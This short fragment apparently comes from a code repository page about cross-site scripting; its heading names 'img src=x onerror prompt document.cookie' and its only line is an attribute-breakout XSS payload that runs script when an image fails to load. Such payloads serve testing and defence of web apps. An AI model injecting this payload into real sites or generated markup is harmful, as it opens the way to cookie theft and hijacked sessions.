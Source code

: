 ---img-src-x-onerror-prompt-document.cookie---
==============================================

">&lt;img src=x onerror=prompt(1);>